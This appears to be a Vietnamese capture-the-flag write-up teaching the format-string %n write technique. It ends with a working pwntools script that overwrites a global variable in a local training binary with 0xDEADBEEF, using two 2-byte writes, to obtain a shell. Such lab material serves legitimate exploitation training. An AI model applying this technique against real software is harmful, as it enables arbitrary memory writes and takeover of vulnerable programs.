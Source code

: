 # Format String - Ghi dữ liệu bằng %n

Ta đã biết qua các format string **%p và %s**, đây là loại cuối cùng mà ta thường dùng khi khai thác: **%n**. Các format string ở các video trước được dùng để leak dữ liệu nhưng với **%n**, **ta có thể dùng nó để ghi dữ liệu ở bất cứ nơi đâu miễn sao ta biết được địa chỉ cần ghi và địa chỉ đó phải nằm trên stack**

**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/059b99b0-5633-406e-8490-19bbd0b0e867)


bài này nhìn phát biết lỗi fmtstr rồi

để lấy được shell ta cần địa chỉ của biến **check** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/3e216cb6-3471-4265-9441-34c4b5ca2dd4)


**có được địa chỉ của biến check ta cần gán biến check bằng 0xDEADBEEFLL** 

**phân tích :** 
- mục tiêu của ta là làm giá trị chỉ biến check là 0xDEADBEEFLL, biến check thì ko nằm trên stack thì nên ta cần gán địa chỉ của check vào trong stack
- %p và %s đều có tác dụng ra in và leak ra dữ liệu trong stack hoặc con trỏ nên nếu ta dùng %p hay %s ở bài này là điều ko thể
- hướng duy nhất ta có khai thác là sử dụng %n, vì ta có thể dùng nó để ghi dữ liệu ở bất cứ nơi đâu miễn sao ta biết được địa chỉ cần ghi và địa chỉ đó phải nằm trên stack

**ở bài này ta cần %n 2 lần vì 0xDEADBEEF 4byte là rất lớn, nếu in ra 1 lần thì chương trình sẽ bị lỗi ko nhận được, nên ta sẽ %n 2 lần , lần 1 in 0xBEEF, lần 2 in 0xDEAD, mỗi lần 2byte.**

bonus:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/b602d563-de3e-498d-8637-a4b0683ecbdb)


(trong script có giải thích nha)

**script:**

```
from pwn import *

p = process('./fmtstr5')
exe = ELF('./fmtstr5')

check_addr = 0x404090

gdb.attach(p, gdbscript = '''
b*main+112
c
'''
)

input()


payload = f'%{0xbeef}c%10$n'.encode() #in lần 1 0xbeef
# vì lần đầu ta đã in 0xbeef rồi, nếu lần 2 ta in 0xdead thì %n nó hiểu là sẽ cộng dồn 0xbeef + 0xdead và ko đúng ta cần
# nên lần 2 ta sẽ in (0xdead - 0xbeef) = 0x1fbe 
payload += f'%{0xdead - 0xbeef}c%11$n'.encode()  #in lần 2 0xdead
payload = payload.ljust(0x20, b'P') #nên dùng ljust vì trong quá trình debug ta sẽ thay đổi payload nhiều lần, dùng ljust giúp ta cố định được check_addr tại 1 stack cố định
payload += p64(check_addr) #2 byte đầu 0xbeef
payload += p64(check_addr + 2) #2 byte sau 0xdead


p.sendlineafter(b'string: ', payload)

p.interactive()
```






